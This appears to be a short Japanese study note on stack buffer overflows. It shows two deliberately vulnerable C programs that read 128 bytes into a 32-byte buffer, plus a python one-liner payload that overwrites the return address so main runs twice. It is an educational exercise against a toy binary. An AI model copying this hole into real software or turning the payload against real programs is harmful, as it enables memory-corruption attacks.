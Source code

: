 ### リターンアドレスの書き換え

リターンアドレスを書き換えることでプログラムの実効一を変更することができる。

```c
#include <stdio.h>
#include <string.h>

char buffer[32];

int main(int argc, char *argv[]) {
	char local[32];
	printf("buffer: 0x%x\n", &buffer);
	fgets(local, 128, stdin);
	strcpy(buffer, local);
	return 0;
}
```
これではEIPをうまく奪取できなかった。
関数を分けて、実行するとうまくいく。

```c
#include <stdio.h>
#include <string.h>

char buffer[32];

void foo() {
	char local[32];
	printf("buffer: 0x%x\n", &buffer);
	fgets(local, 128, stdin);
	strcpy(buffer, local);
}

int main(int argc, char *argv[]) {
	foo();
	return 0;
}

```
main関数の先頭アドレスを取得できれば、
```
$ python -c "print 'A'*44 + '\x9e\x55\x55\x56'" | ./bof2
```
などでEIPを奪取し、main関数を2回実行できる。


[back](./)